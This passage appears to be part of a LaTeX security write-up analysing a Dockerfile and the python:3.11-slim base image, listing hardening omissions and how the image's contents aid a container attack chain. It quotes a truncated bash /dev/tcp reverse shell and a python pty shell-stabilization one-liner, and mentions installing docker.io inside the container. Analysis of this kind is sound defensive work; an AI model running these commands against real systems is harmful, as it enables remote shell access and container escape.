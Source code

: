 \begin{itemize}
    \item \textbf{No \texttt{USER} directive}: all processes run as \texttt{UID 0} by default. This is the single most consequential omission.
    \item \textbf{No \texttt{.dockerignore}}: build context is unrestricted, risking accidental inclusion of secrets.
    \item \textbf{No \texttt{--no-install-recommends}}: unnecessary packages are installed, expanding the available toolset inside the container.
    \item \textbf{No multi-stage build}: build-time dependencies are present in the final runtime image.
    \item \textbf{No \texttt{HEALTHCHECK}}: no liveness monitoring for the running application.
    \item \textbf{No digest pin on base image}: the resolved image can change between builds.
\end{itemize}

\vspace{0.3cm}

\section{Base Image Choice}

\texttt{python:3.11-slim} is an official image maintained by the Python Docker community. It is based on \texttt{debian:bookworm-slim} and includes the Python 3.11 interpreter, \texttt{pip}, the standard library, and Debian base utilities. The \texttt{slim} label indicates that compiler toolchains, development headers, and documentation have been stripped relative to the full \texttt{python:3.11} image.

\subsection*{Security-Relevant Contents}

The \texttt{slim} label is frequently misread as equivalent to \texttt{minimal} or \texttt{secure}. Several components retained in the image are directly exploited in this attack:

\begin{itemize}
    \item \texttt{/bin/bash} and \texttt{/bin/sh} are present. This enables the bash TCP redirect reverse shell (\texttt{bash -i >\& /dev/tcp/...}) used in Step 2 of the attack chain.
    \item \texttt{apt-get} is functional. This allows the attacker to install \texttt{docker.io} inside the container in Step 5 of the attack chain.
    \item \texttt{python3} is present as an alternative shell primitive via \texttt{python3 -c 'import pty; pty.spawn("/bin/bash")'}, used for shell stabilization.
    \item \texttt{curl} and \texttt{wget} are absent by default but are trivially installable via \texttt{apt-get}.
\end{itemize}

